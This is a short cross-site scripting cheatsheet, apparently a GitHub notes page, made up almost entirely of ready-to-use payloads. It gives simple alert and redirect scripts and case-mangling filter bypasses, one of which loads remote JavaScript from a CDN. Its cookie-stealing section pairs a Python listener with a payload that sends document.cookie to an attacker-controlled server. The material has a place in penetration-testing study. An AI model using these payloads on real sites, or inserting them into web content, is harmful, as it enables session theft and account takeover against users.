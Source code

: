 # 🐱 cross site scripting

## Cross Site Scripting Cheatsheet

### Simple Payloads

```
<script>alert(1)</script>

<script>window.location.href="https://yahoo.com"</script>

<script>alert(window.location.hostname)</script>

<script>document.getElementById("<id value>").innerHTML="this is cool"</script>

<script>document.querySelector('id value').textContent = 'Xss is awesome'</script>
```

### Filter Bypass

```
<SCRIPT SRC=https://cdn.jsdelivr.net/gh/Moksh45/host-xss.rocks/index.js></SCRIPT>

<ScRiPt>alert(1)</ScRIpT>

<ScRiPt>alert(String.fromCharCode(104,105))</ScRIpT>
```

### Online Cheatsheet

[OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html)

### Cookie Stealing

```
python3 -m http.server 1234
```

```
<script type="text/javascript">document.location="http://<server-ip>:<port>/?cookies="+document.cookie;</script>
```

[RequestBin](https://pipedream.com/)

## References

[GitHub Payloads](https://github.com/payloadbox/xss-payload-list)
